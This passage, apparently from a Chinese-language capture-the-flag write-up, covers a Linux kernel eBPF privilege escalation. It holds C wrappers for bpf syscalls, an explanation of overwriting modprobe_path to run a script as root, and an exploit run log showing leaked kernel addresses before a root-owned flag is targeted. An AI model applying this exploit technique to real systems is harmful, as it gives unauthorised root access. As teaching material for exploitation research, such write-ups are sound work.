 ```
    return syscall(__NR_bpf, BPF_PROG_LOAD, &amp;attr, sizeof(attr));  

}
static int bpf_create_map(enum bpf_map_type map_type, int key_size, int value_size,  
        int max_entries){

    union bpf_attr attr = {                                         
        .map_type = map_type,                                   
        .key_size = key_size,                                   
        .value_size = value_size,                               
        .max_entries = max_entries                              
    };                                                              
    return syscall(__NR_bpf, BPF_MAP_CREATE, &amp;attr, sizeof(attr));  

}                                                
static int bpf_update_elem(int fd ,void *key, void *value,uint64_t flags){
    union bpf_attr attr = {                                              
        .map_fd = fd,                                                
        .key = (uint64_t)key,                                        
        .value = (uint64_t)value,                                    
        .flags = flags,                                              
    };                                                                   
    return syscall(__NR_bpf, BPF_MAP_UPDATE_ELEM, &amp;attr, sizeof(attr));  

}
static int bpf_lookup_elem(int fd,void *key, void *value){
    union bpf_attr attr = {                                              
        .map_fd = fd,                                                
        .key = (uint64_t)key,                                        
        .value = (uint64_t)value,                                    
    };                                                                   
    return syscall(__NR_bpf, BPF_MAP_LOOKUP_ELEM, &amp;attr, sizeof(attr));  
}
```

### <a class="reference-link" name="%E8%BF%90%E8%A1%8C%E6%95%88%E6%9E%9C"></a>运行效果

运行的效果如下，因为我用的是 改`modprobe_path` 的方式，可以像`/tmp/chmod` 写入任意命令，然后运行`/tmp/fake` ，就可以root权限运行`/tmp/chmod`

```
/home/pwn # ~ $ ls
~ $ cd /
/ $ ls -al flag
-rw-------    1 root     0               11 Apr 26  2019 flag
/ $ cat flag
cat: can't open 'flag': Permission denied
/ $ /exp
ctrlmapfd: 3,  expmapfd: 4
pwning...
[-x64dump-] start :
0x0000000000000002 0x0000000000000000
0xffffffff82016340 0xffff88800d8740c0
0x4141414141414141 0x4141414141414141
0x4141414141414141 0x4141414141414141
[-x64dump-] end ...
[-x64dump-] start :
0x0000000000000001 0x0000000000000002
0x0000000000000003 0x0000000000000004
0x0000000000000005 0x0000000000000006
0x0000000000000007 0x0000000000000008
[-x64dump-] end ...
[lx]  map_leak             : 0xffffffff82016340
[lx]  elem_leak            : 0xffff88800d874110
```